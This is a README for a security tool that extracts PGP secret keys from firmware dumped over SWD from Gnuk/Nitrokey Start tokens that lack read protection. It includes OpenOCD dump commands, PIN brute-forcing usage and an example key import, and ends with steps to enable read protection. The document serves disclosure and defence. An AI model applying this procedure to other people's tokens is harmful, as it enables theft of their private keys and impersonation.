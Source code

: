 Gnuk Extractor
==============

This tool can extract the PGP secret keys from the dumped firmware of a [Gnuk](https://salsa.debian.org/gnuk-team/gnuk/gnuk) token.
It was tested on a [Nitrokey Start](https://shop.nitrokey.com/shop/product/nitrokey-start-6)
and on a Gnuk Token made from a [$2 ST-LINK/V2 clone](https://blog.danman.eu/2-usb-crypto-token-for-use-with-gpg-and-ssh/).

In theory, the flash memory on the *Nitrokey Start* should have the read protection enabled.
However, [this was not the case](https://github.com/Nitrokey/nitrokey-start-firmware/issues/14) on the one I received.
The [next section](#extract-firmware-and-unique-device-id) describes how to verify if the read protection is enabled and extract the firmware if it is not.
Then, this tool can be used to bruteforce the PIN and extract the PGP secret keys.
Finally, the [last section](#how-to-protect-a-gnuk-token) explains how to protect a Gnuk Token against this attack.


Extract Firmware and Unique Device ID
-------------------------------------

The Gnuk firmware and the unique device ID (UDID) can be extracted from the STM32 microcontroller through the
[Serial Wire Debug](https://en.wikipedia.org/wiki/JTAG#Similar_interface_standards) (SWD) interface.
The following pictures show where to solder the 4 SWD wires on a *Nitrokey Start*
and how to connect them to a cheap [ST-LINK/V2 clone](https://www.aliexpress.com/wholesale?SearchText=st-link+v2).

![SWD connection on Nitrokey side](resources/swd-nitrokey.jpg)
![SWD connection on ST-LINK/V2 side](resources/swd-stlinkv2.jpg)

[OpenOCD](http://openocd.org/) can then be used to dump the flash memory and read the STM32 UDID.
The Gnuk token must also be connected to USB before executing the following commands.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
wrote 131072 bytes to file firmware.bin from flash bank 0 at offset 0x00000000 in 2.207341s (57.988 KiB/s)

$ openocd -f resources/stm32udid.cfg
...
0x1ffff7e8 34 ff 6c 06 4e 55 37 32 26 33 24 43             4.l.NU72&3$C
```

In the above example, the firmware was successfully extracted to `firmware.bin` and the STM32 UDID is `34ff6c064e55373226332443`.

On devices where the read protection is correctly enabled, the output looks similar to the following one.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
Error: error reading to flash at address 0x08000000 at offset 0x00000000
Error: Read error

$ openocd -f resources/stm32udid.cfg
...
embedded:startup.tcl:21: Error: error reading target @ 0x00000
```

This means that the firmware cannot be extracted through the SWD interface and this tool cannot be used to recover the PGP secret keys.


Install in a virtualenv
------------------------

```
git clone --recurse-submodules https://github.com/rot42/gnuk-extractor
virtualenv -p python3 venv
. ./venv/bin/activate
pip install ./gnuk-extractor
```


Gnuk extractor usage
--------------------

```
usage: gnuk-extractor [-h] [-o FILE] [-d DICT] -f FW -k PUB -u UDID

Extract PGP private key from GNUK / Nitrokey Start firmware.

optional arguments:
  -h, --help            show this help message and exit
  -o FILE, --out FILE   export private key to FILE [default: stdout]
  -d DICT, --dict DICT  password dictionary

required arguments:
  -f FW, --fw FW        GNUK / Nitrokey Start firmware
  -k PUB, --key PUB     corresponding GPG public key
  -u UDID, --udid UDID  STM32 unique device ID
```

### Example

```
$ gnuk-extractor -f tests/firmwares/nistp256.firmware.bin \
                 -k tests/pubkeys/nistp256.pub.key.asc \
                 -u 34ff6c064e55373226332443 | gpg --import
[INFO] Firmware unlocked with default password: b'123456'
gpg: key BD9FD171C654FBBB: public key "NIST P-256 test key <secp256r1@test.key>" imported
gpg: key BD9FD171C654FBBB: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg -K
/home/user/.gnupg/pubring.kbx
-----------------------------
sec   nistp256/0xBD9FD171C654FBBB 2019-04-26 [SC] [expires: 2029-04-23]
      41516C79920336EFFD758288BD9FD171C654FBBB
uid                   [ unknown] NIST P-256 test key <secp256r1@test.key>
ssb   nistp256/0x4FC05EC0115BA7C8 2019-04-26 [E] [expires: 2029-04-23]
ssb   nistp256/0x395F280AA0766B5A 2019-04-26 [A]
```


How to Protect a Gnuk Token
---------------------------

There are two options to enable the read protection on a Gnuk token.

1. It is possible to [ugprade the firmware](https://github.com/Nitrokey/nitrokey-start-firmware/blob/gnuk1.2-regnual-fix/prebuilt/README.md#firmware-upgrade-instructions) through USB.
   The `upgrade_by_passwd.py` script will enable the read protection after installing the new firmware.
   This will however delete the secret keys from the token, so this method can only be used if the user has a backup of their PGP secret key.
  
        $  python3 ./upgrade_by_passwd.py ../prebuilt/RTM.7/regnual.bin ../prebuilt/RTM.7/gnuk.bin 
        Admin password: 
        ...
        Protecting device
        Finish flashing
        Resetting device
        Update procedure finished
        ...

2. The read protection can also be enabled through the SWD interface. This method has the advantage of not erasing the keys currently on the token, but requires a bit of soldering.
   The 4 SWD wires should be connected [as described above](#extract-firmware-and-unique-device-id) and then *OpenOCD* can be used to enable the read protection.

        $ openocd -f resources/stm32lock.cfg 
        ...
        Info : device id = 0x20036410
        Info : flash size = 128kbytes
        stm32x locked
        target halted due to debug-request, current mode: Thread 
        xPSR: 0x01000000 pc: 0x08000268 msp: 0x20005000

